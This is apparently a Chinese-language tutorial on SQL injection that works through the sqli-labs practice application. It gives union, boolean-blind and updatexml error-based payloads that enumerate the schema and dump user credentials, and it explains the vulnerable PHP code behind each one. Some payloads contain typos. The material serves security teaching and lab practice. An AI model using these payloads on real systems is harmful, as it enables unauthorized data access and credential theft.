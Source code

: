 ## Union（联合）注入攻击

[在线靶场][http://43.247.91.228:84/Less-1/?id=1]

http://127.0.0.1/sqli-labs/Less-1/?id=1

### 一、判断是否用'做字符串引号

`http://127.0.0.1/sqli-labs/Less-1/?id=1'and 1=1 --+`

`https://blog.csdn.net/qq_41630808/article/details/80570197`

正常输出

出错代表没有闭合  说明没有用’可能没有用' 或用了"或() 

`http://127.0.0.1/sqli-labs/Less-1/?id=1%27and%201=2--+`

则是''字符串注入

### 二、判断它所在的数据库有几列

`http://127.0.0.1/sqli-labs/Less-1/?id=1'order by 3 --+ 判断是否有3列`

正常

`http://127.0.0.1/sqli-labs/Less-1/?id=1'order by 4 --+ 判断是否有4列`

错误

说明它输出的内容所在的数据库有3列

### 三、判断他显示的内容在数据库的第几列

`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+`

则 Your Login name 在第二列Your Password在第三列

我选择在第二列输出我想要的内容

### 四、查找出当前用户权限

`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,user(),3 --+`

root权限

### 五、查找当前数据库

`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,database(),3 --+`

### 当前数据库是 security

### 六、查找security的表名

`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema ='security'),3 --+`

表名是 emails,referers,uagents,users

> > group_concat()会计算哪些行属于同一组，将属于同一组的列显示出来。要返回哪些列，由函

> > 数参数(就是字段名)决定  

### 七、查找users里的字段

`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name = 'users'),3 --+`

### 八、查找用户名

`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,(select group_concat(username) from security.users),3 --+` 

### 九、查找密码

`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,(select group_concat(password) from security.users),3 --+`

这样 这个就完成了  已经拿到了账号密码 

## Union  (联合) 注入代码分析 

**在Union注入页面中，程序获取GET参数ID，将ID拼接到SQL语句中，在数据库中查询参数的ID对应的内容，然后将第一条查询结果中的`username`和`address`输出到页面，**

**由于是将数据输出到页面上的，所以利用Union语句查询其他数据，代码如下：**

 ![](http://ww1.sinaimg.cn/large/007bHQE8gy1g58le58wz5j30ou0bo77h.jpg)

**当访问`id=1 union select 1,2,3`时，执行的SQL语句为:**

`Select \* from users where ‘id’=1 union select 1,2,3``

  **此时sql语句可以分为`select \* from users where ‘id’=1`和`union select 1,2,3`两条，利用第二条语句（Union查询）就可以获取数据库中的数据。**

 **（优化在源码中添加sql语句执行代码）**

## Boolean  (布尔型) 注入攻击

`1' and length(database())>=1--+         //判断数据库的长度`

`l' and substr(database(),1,1)=‘t’ --+       //判断数据库第一个字母的值`

``l' and substr(database(),2,1)=‘q’ --+      //判断数据库的第二个字母的值``

``l' and ord(substr(database(),1,1))=115--+  //利用ord和ASCII判断数据库库名``

``l' and substr(database(),2,1)=’q’--+       //利用substr判断数据库的库名``

``l' and substr(select table_name from information_schema.table where table_schema=‘sql’ limit 0,1),1,1)=‘e’ --+   //利用substr判断数据库的表名``

 

**1.**    `length(str)`：返回str字符串的长度。

**2.**    `substr(str, pos, len)`：将str从pos位置开始截取len长度的字符进行返回。注意这里的pos位置是从1开始的，不是数组的0开始

**3.**   `mid(str,pos,len):`跟上面的一样，截取字符串

**4.**    `ascii(str)`：返回字符串str的最左面字符的ASCII代码值。

**5.**    `ord(str):`同上，返回ascii码

**6.**    `if(a,b,c) :a`为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0

## Boolean (布尔型)注入代码分析

在Boolean注入页面中程序先获取GET参数ID,通过preg_match判断其中是否存在union/sleep/benchmark等危险字符。然后将参数ID拼接到SQL语句，从数据库中查询，

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g58ldmekhdj30lr0dsgoe.jpg)

当访问id=1‘ or 1=1%23时，数据库执行的语句为selcet \* from user where ‘id’=’1’ or 1=1#,由于or 1=1是永真条件，所有此时返回正常。当访问id=1‘ and 1=2%23时，

数据库执行的语句为select \* from users where ‘id’ = ‘1’ and 1=2#, 由于and‘1‘ =’2‘ 是永假条件，所有此时页面肯定会返=返回错误。

## 报错注入攻击

updatexml(1,concat(0x7e,(select user()),0x7e),1)--+       //利用updatexml获取user()

‘ and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+   //利用updatexml获取database（）

`‘ and updatexml(1,concat(0x7e,(select select schema_name from information_schema.schemata limit 0,1),0x7e),1)--+**              **//****利用报错注入获取数据库库名

‘ and updatexml(1,concat(0x7e,(select select table_name from information_schema.tables where table_schema= ‘test’  limit 0,1),0x7e),1)--+    //利用报错注入获取数据库表名 

```

## 报错注入攻击代码分析


**在报错注入页面中，程序获取GET参数username 后，将username拼接到SQL语句中然后，然后到数据库查询。**

 ![](http://ww1.sinaimg.cn/large/007bHQE8gy1g58lsi2dz3j30ua0a9419.jpg)

   


输入username=1‘时，SQL语句为select * from user where ‘username’=‘1“。执行时会因为多了一个单引号而报错。利用这种错误回显，我们可以通过floor(),updatexml()


等函数将要查询的内容输出到页面上。


 


 
```